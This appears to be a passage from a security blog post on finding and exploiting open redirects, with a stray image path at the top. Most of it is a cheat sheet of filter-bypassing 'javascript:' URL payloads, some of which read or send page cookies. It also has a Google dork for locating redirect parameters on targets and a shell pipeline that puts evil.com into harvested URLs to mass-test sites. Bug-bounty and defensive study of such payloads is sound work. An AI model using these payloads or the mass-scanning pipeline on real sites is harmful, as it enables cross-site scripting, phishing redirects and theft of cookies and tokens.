 #Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
Lab: Stealing OAuth access tokens via an open redirect | Web Security Academy
This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth…
portswigger.net

Google Dorking & Automation
You can also use the manual method to find open redirects on your target using this Google Dork:

site:target (inurl:url= | inurl:return= | inurl:next= | inurl:redirect= | inurl:redir= | inurl:ret= | inurl:r2= | inurl:page= | inurl:dest= | inurl:target= | inurl:redirect_uri= | inurl:redirect_url= | inurl:checkout_url= | inurl:continue= | inurl:return_path= | inurl:returnTo= | inurl:out= | inurl:go= | inurl:login?to= | inurl:origin= | inurl:callback_url= | inurl:jump= | inurl:action_url= | inurl:forward= | inurl:src= | inurl:http | inurl:&)
inurl:url= | inurl:return= | inurl:next= | inurl:redirect= | inurl:redir= | inurl:ret= | inurl:r2= | inurl:page= inurl:& inurl:http site:target
For mass open redirect automation, you can use my dorking.py script, which fetches all Google Dork results within seconds on the terminal


After this use gf patterns,qsreplace and httpx grep to filter valid open redirects with the following command:

cat urls.txt| gf redirect | uro | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com" 
